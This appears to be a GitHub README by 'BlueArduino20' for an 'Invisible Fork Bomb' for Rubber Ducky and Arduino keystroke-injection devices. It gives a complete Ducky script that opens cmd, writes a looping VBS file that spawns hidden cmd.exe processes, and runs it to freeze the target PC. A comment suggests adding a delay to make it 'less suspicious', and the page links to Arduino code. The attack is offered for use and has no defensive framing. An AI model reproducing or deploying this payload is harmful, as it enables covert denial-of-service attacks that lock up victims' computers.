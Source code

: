 # Invisible Fork Bomb for Arduino and Ducky
The script creates and starts a vbs that executes exponentially cmd.exe without visible windows (Fork bomb -> Freezes the PC).

# About...
Author: BlueArduino20

Version 1.0

# Code for Rubber Ducky

<pre><code>GUI r
DELAY 500
STRING cmd
ENTER
DELAY 500
STRING copy con forkb.vbs
ENTER
STRING do
ENTER
STRING CreateObject("Wscript.Shell").Run "cmd", 0, False
ENTER
STRING loop
CTRL z
ENTER
DELAY 50
STRING start forkb.vbs && exit
REM You can add this: ">null ping localhost -n 5 && " before "start" to make a (5 sec) delay before the vbs execution. (By this way it's less suspicious)
ENTER
</pre></code>

# Code for Arduino

<a href="https://github.com/BlueArduino20/Invisible_fork_bomb/blob/master/Invisible_fork_bomb.ino">Invisible_fork_bomb.ino<a>
